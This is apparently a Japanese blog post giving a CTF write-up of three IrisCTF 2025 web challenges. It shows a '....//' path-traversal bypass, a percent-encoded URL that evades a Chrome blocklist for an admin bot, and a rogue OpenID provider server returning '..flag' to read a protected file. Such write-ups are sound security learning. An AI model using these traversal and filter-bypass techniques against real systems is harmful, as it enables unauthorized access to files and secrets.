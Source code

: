 ```yaml
---
title: IrisCTF 2025 writeup (Web)
---
```


日本時間の2025年1月4日9:00から2日間開催された[IrisCTF](https://irisc.tf/)に[traP](https://trap.jp/)として参加し、1064チーム中89位を獲得した。僕はWebの問題を3問解いたので、それについて振り返る。

## Password Manager (baby)

ディレクトリトラバーサルを防ぐために`PathReplacer`なるものが用意されている。

```go
var PathReplacer = strings.NewReplacer(
	"../", "",
)
```

が、別に置換後の文字列はチェックされないので`....//`を使えばいい。

![password-manager-web.chal.irisc.tf/...//users.jsonにアクセスし、パスワードを入手した様子](/img/password-manager.avif)

あとは入手したパスワードを使ってログインすればflagが表示される。

## Political (easy)

index.htmlとchal.pyを眺めると、

- アクセスするごとにランダムなトークンが発行される
- `valid_tokens[token] == True`となるトークンを使うとflagを入手できる
- `valid_tokens`を設定するにはadminのcookieが必要

ということが分かる。また、配布ファイルの`bot/`ディレクトリには`nc`先で動いているものと思われるコードがある。bot.jsはadminのcookieを使って与えられたURLにアクセスしてくれるので、こいつに`https://political-web.chal.irisc.tf/giveflag?token=TOKEN`を渡せば良さそうだ。しかし、policy.jsonがあるのでそのままではうまくいかない。

```json
{
	"URLBlocklist": ["*/giveflag", "*?token=*"]
}
```

Dockerfileに次のような行

```Dockerfile
COPY policy.json /etc/opt/chrome_for_testing/policies/managed/
```

があるので、policy.jsonはChromeの設定ファイルらしい。というわけで[Chromeのドキュメント](https://support.google.com/chrome/a/answer/9942583?hl=JA)を読むと、パスとクエリパラメータでは大文字・小文字が区別されると書いてある。これが使えないかと思ったが、Flaskがデフォルトでcase-sensitiveなので駄目だった。他に`URLBlocklist`にはマッチさせず同じURLを表現する方法を考えたところ、パーセントエンコードすれば良いということに気付いたため`https://political-web.chal.irisc.tf/%67iveflag?%74oken=TOKEN`をbot.jsに渡して解決した。こんなんで回避できちゃうポリシーに意味あるのかな。

## Bad Todo (medium)

OpenIDとか書いてあるが、よく分からないので一旦置いておく。prime_flag.jsに

```javascript
const client = createClient({
    url: `file://${process.env.STORAGE_LOCATION}/flag`
});
```

とあり、他に`createClient`が呼ばれている箇所では全て

```javascript
const client = createClient({
    url: `file://${getStoragePath(idp, sub)}`
});
```

となっているので`getStoragePath`に適当な引数を渡すことでflagを取得できないか考える。

```javascript
export function sanitizePath(base) {
    const normalized = path.normalize(path.join(process.env.STORAGE_LOCATION, base));
    const relative = path.relative(process.env.STORAGE_LOCATION, normalized);
    if (relative.includes("..")) throw new Error("Path insane");

    const parent = path.dirname(normalized);
    mkdirSync(parent, { recursive: true });
    
    return normalized;
}

export function getStoragePath(idp, sub) {
    const first2 = sub.substring(0, 2);
    const rest = sub.substring(2);

    const path = `${sha256sum(idp)}/${encodeURIComponent(first2)}/${encodeURIComponent(rest)}`;
    return sanitizePath(path);
}
```

`sanitizePath`に`relative.includes("..")`とあるので一見`..`を含めることができなそうだが、ここでチェックされているのは`STORAGE_LOCATION`に対する相対パスなので遡りすぎなければ問題ない。`encodeURIComponent`のせいで自由に`/`を使うことはできないが、なぜか`sub`の最初2文字を切り出してくれているので`..flag`とすることで`path`が`${sha256sum(idp)}/../flag`になる。

では`sub`は何なのか？関数の呼び出し元を辿っていくと、フォームに入力したOpenIDのissuerが返す値が使われていることが分かる。なのであとは適当なOpenIDプロバイダを用意して`..flag`を返すようにするだけだ。ここでOpenIDに関する知識は必要なくて（僕は持っていない）、ただapp.jsで使われているレスポンスを返すだけのサーバを用意すれば良い。

```typescript
const issuer = "https://close-badger-22.deno.dev"

Deno.serve((req) => {
  const reqUrl = new URL(req.url)

  if (reqUrl.pathname === "/.well-known/openid-configuration") {
    return Response.json({
      issuer: issuer,
      authorization_endpoint: issuer + "/auth",
      token_endpoint: issuer + "/token",
      userinfo_endpoint: issuer + "/userinfo",
    })
  }

  if (reqUrl.pathname === "/auth") {
    const redirectUri = reqUrl.searchParams.get("redirect_uri")
    const state = reqUrl.searchParams.get("state")

    if (!redirectUri) {
      return new Response("redirect_uri is required", { status: 400 })
    }

    return Response.redirect(redirectUri + "?state=" + state)
  }

  if (reqUrl.pathname === "/token") {
    return Response.json({
      access_token: "token",
      token_type: "Bearer",
    })
  }

  if (reqUrl.pathname === "/userinfo") {
    return Response.json({
      sub: "..flag",
    })
  }

  return new Response("Not Found", { status: 404 })
})
```

初めてDeno Deployを使ってみたが、リポジトリを用意したりしなくてもplaygroundでサクッとサーバーを立てられるのは便利だった。

![Deno Deployのplayground](/img/deno-deploy-playground.avif)

## おわりに

CTFのWeb問にしっかり時間を割くのは初めてだったが、思ったより解けて楽しかった。去年はtraPのCTF班に所属しておきながら講習会を受けるだけでほとんどコンテストに出られていなかったので、今年はもっと活動していきたい。
